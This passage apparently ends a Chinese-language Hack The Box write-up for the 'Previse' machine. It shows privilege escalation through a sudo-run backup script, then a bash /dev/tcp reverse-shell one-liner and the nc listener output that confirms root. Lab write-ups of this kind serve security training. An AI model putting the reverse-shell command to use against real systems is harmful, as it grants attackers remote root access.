 ```

执行sudo命令
```
m4lwhere@previse:~$ sudo /opt/scripts/access_backup.sh
root@previse:~# id
root@previse:~# whoami
root@previse:~# cat /root/root.txt
root@previse:~# pwd

```

看见已经提权到root，但是所有命令都没有回显。不过没关系，我们可以反弹一个shell

使用下面命令：

```bash -i >& /dev/tcp/10.10.16.3/4242 0>&1```

拿到一个新shell
```
┌──(root💀kali)-[~/htb/Previse]
└─# nc -lnvp 4242
listening on [any] 4242 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.11.104] 42990
root@previse:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@previse:~# whoami
whoami
root

```

# 总结
foothold比较困难，如果一直盯着浏览器的回显看，那就可能错失进攻点,需要用burp fuzzing
foothold具体实施和root都是通过命令劫持，比较简单，知道有这个思路就问题不大。

